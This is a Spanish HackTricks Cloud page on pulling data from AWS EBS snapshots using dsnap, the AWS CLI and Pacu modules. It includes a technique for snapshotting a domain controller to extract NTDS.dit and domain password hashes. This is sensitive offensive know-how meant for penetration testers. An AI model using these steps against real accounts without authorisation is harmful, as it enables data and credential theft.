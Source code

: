 # AWS - Volcado de instantáneas de EBS

<details>

<summary><strong>¡Apoya a HackTricks y obtén beneficios!</strong></summary>

* Si deseas ver a tu **empresa anunciada en HackTricks** o si deseas acceder a la **última versión de PEASS o descargar HackTricks en PDF**, consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Obtén el [**oficial PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Descubre [**The PEASS Family**](https://opensea.io/collection/the-peass-family), nuestra colección de exclusivos [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **sígueme** en **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm).

* **Comparte tus trucos de hacking enviando PR a los repositorios de GitHub de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

### Comprobación de una instantánea localmente

```bash
# Instalar dependencias
pip install 'dsnap[cli]'
brew install vagrant
brew install virtualbox

# Obtener instantánea de la imagen
mkdir snap_wordir; cd snap_workdir
dsnap init
## Descargar una instantánea del volumen de esa instancia
## Si no existía ninguna instantánea, intentará crear una
dsnap get <instance-id>
dsnap --profile default --region eu-west-1 get i-0d706e33814c1ef9a
## Otra forma de obtener una instantánea
dsnap list #Listar instantáneas
dsnap get snap-0dbb0347f47e38b96 #Descargar instantánea directamente

# Ejecutar con vagrant
IMAGE="<download_file>.img" vagrant up #Ejecutar imagen con vagrant+virtuabox
IMAGE="<download_file>.img" vagrant ssh #Acceder a la VM
vagrant destroy #Para destruir

# Ejecutar con docker
git clone https://github.com/RhinoSecurityLabs/dsnap.git
cd dsnap
make docker/build
IMAGE="<download_file>.img" make docker/run #Con la instantánea descargada
```

Para obtener más información sobre esta técnica, consulte la investigación original en [https://rhinosecuritylabs.com/aws/exploring-aws-ebs-snapshots/](https://rhinosecuritylabs.com/aws/exploring-aws-ebs-snapshots/)

Puede hacer esto con Pacu utilizando el módulo [ebs\_\_download\_snapshots](https://github.com/RhinoSecurityLabs/pacu/wiki/Module-Details#ebs\_\_download\_snapshots)

### Comprobación de una instantánea en AWS

```bash
aws ec2 create-volume --availability-zone us-west-2a --region us-west-2  --snapshot-id  snap-0b49342abd1bdcb89
```

**Montarlo en una VM de EC2 bajo su control** (tiene que estar en la misma región que la copia de la copia de seguridad):

**Paso 1:** Dirígete a EC2 –> Volumes y crea un nuevo volumen de tu tamaño y tipo preferidos.

**Paso 2:** Selecciona el volumen creado, haz clic con el botón derecho y selecciona la opción "attach volume".

**Paso 3:** Selecciona la instancia del cuadro de texto de la instancia como se muestra a continuación.

![](<../../../../.gitbook/assets/image (6) (1) (1).png>)

**Paso 4**_:_ Ahora, inicie sesión en su instancia ec2 y liste los discos disponibles usando el siguiente comando.

```
lsblk
```

El comando anterior mostrará el disco que adjuntó a su instancia.

**Paso 5:**

![](<../../../../.gitbook/assets/image (75).png>)

Puede hacer esto con Pacu utilizando el módulo ebs\_\_explore\_snapshots

### Comprobación de una instantánea en AWS (usando cli)

```bash
aws ec2 create-volume --availability-zone us-west-2a --region us-west-2 --snapshot-id <snap-0b49342abd1bdcb89>

# Adjuntar nuevo volumen a la instancia
$ aws ec2 attach-volume --device /dev/sdh --instance-id <INSTANCE-ID> --volume-id <VOLUME-ID>

# montar la instantánea desde dentro de la VM
$ sudo file -s /dev/xvdb1
# Devuelve:
# /dev/xvdb1: Linux rev 1.0 ext4 filesystem data, UUID=5a2075d0-d095-4511-bef9-802fd8a7610e, volume name "cloudimg-rootfs" (extents) (large files) (huge files)
$ sudo mount /dev/xvdb1 /mnt
```

### Copia de sombra

Cualquier usuario de AWS que posea el permiso **`EC2:CreateSnapshot`** puede robar los hashes de todos los usuarios del dominio creando una **instantánea del controlador de dominio** montándolo en una instancia que controlen y **exportando el archivo NTDS.dit y el registro SYSTEM** para su uso con el proyecto secretsdump de Impacket.

Puede utilizar esta herramienta para automatizar el ataque: [https://github.com/Static-Flow/CloudCopy](https://github.com/Static-Flow/CloudCopy) o podría utilizar una de las técnicas anteriores después de crear una instantánea.

<details>

<summary><strong>¡Apoya a HackTricks y obtén beneficios!</strong></summary>

* Si deseas ver a tu **empresa anunciada en HackTricks** o si deseas acceder a la **última versión de PEASS o descargar HackTricks en PDF**, consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Obtén el [**oficial PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Descubre [**The PEASS Family**](https://opensea.io/collection/the-peass-family), nuestra colección de exclusivos [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **sígueme** en **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm).

* **Comparte tus trucos de hacking enviando PR a los repositorios de GitHub de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>